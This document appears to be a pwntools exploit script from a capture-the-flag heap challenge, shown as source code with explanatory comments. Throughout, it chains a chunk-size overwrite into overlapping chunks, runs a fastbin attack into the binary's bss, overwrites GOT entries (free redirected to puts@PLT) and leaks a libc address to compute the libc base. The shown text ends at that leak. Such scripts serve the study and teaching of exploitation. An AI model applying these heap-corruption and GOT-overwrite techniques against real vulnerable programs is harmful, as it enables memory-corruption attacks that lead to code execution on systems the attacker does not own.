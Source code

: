 ```py
def edit(index, data):
	p.recvrepeat(0.2)
	p.sendline(str(2))
	p.recvrepeat(0.2)
	p.sendline(str(index))
	p.recvrepeat(0.2)
	p.sendline(data)

def free(index):
	p.recvrepeat(0.2)
	p.sendline(str(3))
	p.recvrepeat(0.2)
	p.sendline(str(index))

#will be coalesced with top chunk... doesn't matter, will help with strlen issues because data there rather than null bytes
alloc(0x500, 'A' * 0x500) #0
free(0)
#this first chunk will allow us to tamper with the size of the next chunk
alloc(0x108, 'A' * 0x108) #0
alloc(0x288, 'B'*0x270 + p64(0x280)) #the 0x280 is meant to beat the first check in the unlink macro
alloc(0x108, 'C'*0x108) #2
# Prevent top chunk consolidation
alloc(0x108, 'D'*0x108) #3
free(1)
#abusing edit to shrink the free chunk to 0x280 size
edit(0, 'A' * 0x108 + '\x80\x02')
#preparing for the back coalesce once we free the 3rd chunk
alloc(0x80, 'E' * 0x80) #1
#create a fastbin sized chunk for later fastbin attack
alloc(0x60, 'F' * 0x70) #4
#freeing the E chunk
free(1)
#now free C chunk... should cause a back coalesce and overlap into memory where we still have chunk control in
free(2)
free(4) #setting up for the fastbin attack
#array starts here, each index is 8 bytes: 006020c0
#15 notes max
#valid fastbin chunk:
#gdb-peda$ x/20gx (char*)0x006020c0-0x23
#0x60209d:	0x32e2311540000000	0x000000000000007f
#0x6020ad:	0x0000000000000000	0x0000000000000000
#it is behind bss... so let's just destory the 0th index
#so target address for fastbin attack on free for leak is 0x60209d
alloc(0x200, 'Z' * 0x80 + p64(0x90) + p64(0x71) + p64(0x60209d)) #new index 1, abusing the overlapped chunk to begin a fastbin attack
#pulling from fastbin
alloc(0x60, 'G')
#this allocation will get us into bss, let's overwrite pointers now
alloc(0x60, 'A' * 0x13 + p64(binary.got['free']) + p64(binary.got['puts']) + p64(binary.got['atoi']))
#edit free@GOT, make it puts@PLT, then have it call free aka puts@PLT on puts@GOT which is at index 1
edit(0, p64(binary.plt['puts']))
#now delete 1 should leak a libc address, remember that 1 is pointing to puts@GOT
free(1)
temp = p.recvrepeat(1).split('\n')[0]
putsAddress =  u64(temp + '\x00' * 2)
log.info("Leaked puts: " + hex(putsAddress))
libcBase = putsAddress - libc.symbols['puts']
log.info("Leaked libc base: " + hex(libcBase))
```